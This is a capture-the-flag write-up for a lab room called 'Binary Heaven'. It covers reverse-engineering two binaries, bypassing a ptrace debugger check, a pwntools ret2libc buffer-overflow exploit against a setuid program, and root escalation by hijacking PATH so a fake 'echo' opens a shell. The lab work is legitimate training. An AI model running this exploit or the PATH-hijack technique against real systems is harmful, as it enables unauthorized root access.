# Binary Heaven

Binary Heaven is a room that tests the user of binary knowledge, for example reverse engineering binaries or buffer overflow exploitation. This is how I solved the room.

## Checking if files are malicious

The first step I took is checking if the binaries provided are somehow malicious by checking them in VirusTotal. The results for the binaries should be negative for malicious code.

## Metadata inspection

The next thing to check is the file type and what security measures are applied to the binaries. I have done this using the following commands:

- `file` to check what type of files are the binaries.
	- `angel_A` shows a ELF64 binary that is dynamically linked, meaning the libraries used for the binary are not included in the file itself, but rather exist already in your filesystem.
	- `angel_B` shows an ELF64 statically linked binary which what looks like it was built using golang, since there is a `Go BuildID`.
- `readelf -a` for inspecting more detailed information about the binary program.
- `checksec` for inspecting the security measures applied to the binary, such as ASLR, stack canaries, NX bits and more.
	- `angel_A` shows that the stack is not executable, no canary value is enabled, PIE is enabled and partial RELRO enabled.
	- `angel_B` shows that the stack is not executable, no canary value is enabled, PIE is disabled and RELRO is disabled.


## What is the username?

### Analyzing the assembly code

I executed the `angel_A` binary using `gdb`, the GNU debugger for binary applications (`pwndbg` is used, that's why the output looks different than regular `gdb`). After that I executed the command `info functions` to see what kind of functions are used by the program.



We can see that at address `0x1175` we have the `main` function. I have dissasembled the function using the command `disas main`.



We can see that there is a symbol named `username` that could have what we want. After using the command `x/ws 0x4060`, we see the following string: `kym~humr`. After executing the binary and inputting the username:



We see that it is not correct. After opening `gdb`, setting the breakpoint at `0x11e7` and executing the function, we notice that something strange has happened.



The program detected that we are using a debugger. The cause is the compare check right under the instruction that calls `ptrace`. We can bypass the `ptrace` debugger detection method by simply putting a breakpoint on the `cmp` instruction and changing the `eax` register value to anything other than the value `-1`, we can do this by using the command `set $rax=0x0` when we hit the checkpoint.

If we closely inspect the flow of the program, we can see that after the check, the program goes in a loop for every character provided by our input. We can see that for each character, we XOR with the integer 4 and add 8 to the result and compare with the corresponding letter in our `username` value, so:

1. For every letter in input:
2. XOR with 4
3. Add 8
4. Compare with letter in username\[index\]
5. Show "That is not my username" if compare is not equal.

We now know that to get the username, we have to:

1. For every letter in "kym~humr", XOR by 4.
2. Subtract the result by 8, since we add 8 to compare the "real" username to "kym~humr".

### Creating a script to get our username

I have created and used the following snippet of code in `javascript`:

```javascript
"kym~humr"
	.split("") // Split every character into an array
	.map( v => v.charCodeAt() ^ 0x4 ) // XOR every int representation of a character by 0x4
	.map( v => v - 0x8 ) // Subtract result by 0x8
	.map( v => String.fromCharCode(v) ) // Convert int result into a readable unicode character
	.join("") // join all characters into one string
```

I seperated every operation needed into a `.map` function to make it more readable. When executed, we get the username:



We can check this by running the executable and inputting the username:



This is our answer to the first question in Task 2.

## What is the password?

### Analyzing the assembly code

After opening `angel_B` in gdb, I tried disassembling `main` using the command `disas main`, but unfortunately, I was greeted with an error that such symbol does not exist. I have tried `info functions` to find our potential entrypoint:



We can set a breakpoint by using `b main.main`. After setting a breakpoint, I ran the executable and disassembled the current function I am in.



After disassembly, we can see comments containing addresses to strings, I have checked all of them by `x/s <addr>` or `x/s *<addr>` to finally get an interesting result in `0x4cad0b`:



`GOg0esGrrr!` looks like a password, so I tried that and:



Success! I have solved the second question in Task 2.

## What is the flag?

### SSH into machine

Since the `angel_B` binary says something about SSH, I deployed the machine and used the gained username and password to attempt login to the machine using the `ssh guardian@<addr>` command:



After logging into the machine, we can discover the flag file and take it's contents:



This is the flag for our third question in Task 2.

## binexgod_flag.txt

First, I ran the setuid binary found in the home directory of the remote machine:



We see that we get an address of `system`, which is a C function that enables us to run system commands. I have copied the `pwn_me` binary to my local computer and ran it through `gdb` (stupid me... running unknown stuff in a VM rather than on the physical computer would be a good practice) and analyzed the disassembled code.



Here we have a `vuln` function which has a `puts`, a `printf` and a `gets` function. If we look at what they do:

- [puts(const char \*str)](assets/img/https://cplusplus.com/reference/cstdio/puts/) writes the C string pointed by str to stdout
- [printf(const char \* format)](assets/img/https://cplusplus.com/reference/cstdio/printf/) also writes C string pointed by format to stdout, but this time you can format the content with specifiers such as `%s`, `%x` and more.
- [gets(char \* str)](assets/img/https://cplusplus.com/reference/cstdio/gets/) Reads characters from stdin and copies them into str. If we carefully read the description of the function, we see that this particular function can lead to **Buffer Overflows**, which can help us in this case.

We see that we have a vulnerable function `gets` in the pwn_me binary. We also see that the stack oveflow detection is disabled, since in every function should have the following structure:



We can also use `checksec` to check the binary security measures:



Now since we know that we can overflow the stack, we need to find out how many bytes are needed to overwrite the instruction pointer (RIP/EIP). We can generate a unique sequence using the pwntools `cyclic` function:



We can see that we get a tuple with three elements, `(28, 0, 28)`, we are interested in the first one, since this is our position in our cyclic sequence.

What does this information mean?
- 0-28 chars are padding.
- 29-32 are chars of the base pointer for the stack.
- 33-37 are chars of the instruction pointer.

If we use a payload in the lines of `AAAAAAAAAAAAAAAAAAAAAAAAAAAASTAKRRIP`, then we should get the following output:



We can see that `RIP = RRIP`, which means that we are able to control RIP.

The next things we need are the address of `system`, `exit` (optionally), and address for the string `/bin/sh`, which all of those addresses we can find in the libc library (ret2libc attack). Bare in mind that PIE is enabled on the binary, which means that everytime we run the program, the memory address range will be different. Fortunately, we can use offsets relative to the `system` function, since all we need (`system`, `exit`, `/bin/sh`) are in one file, `libc.so`. ASLR and PIE does not affect us in this situation, since PIE randomizes memory of the **whole** binary and ASLR does the same, but for libraries like libc and other dynamically linked libraries (correct me if i'm wrong about this), both of these options do not protect against our vulnerability here.

We can get the address of `system` using `gdb` (do this in the remote machine, because the size and version of libc differs):



Next, we have to get the address of `exit`, by executing `info functions exit`:



We also have to find the string `/bin/sh` that exists somewhere within the libc library, so we first have to get the first address of libc and the end address and find it using the command `find <start_addr>,<end_addr>,"/bin/sh"`:



After we have all these components, we can now get the offsets:



We can now use this information to create our exploit, and this is what I came up with:

```python
from pwn import *
import struct

padding = b"A" * 28

proc = ssh(user="guardian", host="<addr>", password="<pass>").process("./pwn_me")

proc.recvline() # Binexgod said he want to make this easy.
system = proc.recvline() # System is at <addr>

print(system)

system = system[14:-1] # get only the address part
system_int = int(system, 16) # convert to int

system = struct.pack("I", system_int) # the system address
sh_addr = struct.pack("I", system_int + 0x11e7bb) # the /bin/sh address relative to system address
exit_addr = struct.pack("I", system_int - 0xc190) # the exit function address relative to system address

proc.sendline(padding + b"STAK" + system + exit_addr + sh_addr) # Send the payload
proc.interactive() # Gets us a shell
```

The payload is the following structure `<system>,<exit>,<arg1>`, because the first argument in `system` lies in ebp+8, which means that we can even replace `exit` with 4 dummy bytes if we want to (depends if one cares if he gets a segfault after exiting the shell, for example is on a machine that monitors return codes of processes).

If I execute the exploit, I get the following output:



Success! We are binexgod! The only thing to do is to `cd /home/binexgod` and get the flag:



## Root

After gaining access to the user `binexgod`, we notice that in the home directory, we have a couple of files:

- A bash script called `secret_of_heaven`, which upon executing, shows a familiar colorful cat...
- A `vuln` executable that has the setuid bit enabled, meaning that the binary can be executed as the owner without needing any authentication, which in our case the owner is `root`.

The vuln.c file contains the following content:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp) {
	gid_t gid;
	uid_t uid;

	gid = getegid();
	uid = geteuid();


	setresgid(gid, gid, gid);
	setresuid(uid, uid, uid);

	system("/usr/bin/env echo Get out of heaven lol");
}
```

The `/usr/bin/env` binary does the following:

```
The env command allows you to display your current environment or run a specified command in a changed environment. If no flags or parameters are specified, the env command displays your current environment, showing one Name=Value pair per line.
```

As we can see, one can use this command to run a command in a different environment. The relative path to binaries are searched in the environment variable `PATH`, or else bash says that the command is not found. We can use this knowledge to create our own `echo` command that can replace the original one and give us a shell. I have done this by creating a file called `echo` in `/tmp` that has the following content:

```
#!/bin/sh

/bin/sh
```

That's all! The next is to execute the setuid binary `vuln` the following way:
`binexgod $ PATH=/tmp:$PATH ./vuln`

This gives us the following output:



We can finally get the last flag that exists in `/root/`:



And that's our flag!